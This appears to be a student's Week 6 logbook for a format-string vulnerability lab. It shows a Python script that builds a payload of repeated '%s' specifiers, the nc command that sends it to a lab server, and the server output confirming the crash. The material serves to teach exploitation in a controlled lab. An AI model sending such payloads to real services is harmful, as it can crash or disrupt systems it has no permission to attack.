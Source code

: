 # Week 6 Logbook

#### Preparation Steps

```sh
[11/23/21]seed@VM:~/.../server-code$ make
...
[11/23/21]seed@VM:~/.../server-code$ make install
...
[11/23/21]seed@VM:~/.../Labsetup$ dcbuild
...
[11/23/21]seed@VM:~/.../Labsetup$ dcup
...
```

## Task 1

#### Code: `build_string_task1.py`
```python
#!/usr/bin/python3
import sys

N = 1500

content = ("%s"*((N//2) - 1)).encode('latin-1')

content = content + bytearray(0x0 for i in range(N - len(content)))

with open('badfile', 'wb') as f:
  f.write(content)
```

```sh
[11/23/21]seed@VM:~/.../attack-code$ cat badfile | nc 10.9.0.5 9090
[11/23/21]seed@VM:~/.../attack-code$ 
```

We crafted a format string filled with `%s` format specifiers. This will make the program treat values on the stack as addresses where a string is stored, it is highly likely that we will read from an illegal address and crash the program.

#### Container shell output
```sh
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd560
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd488
server-10.9.0.5 | The target variable's value (before): 0x11223344
```
The *Returned properly* message is not printed, meaning we managed to crash the `format` program.
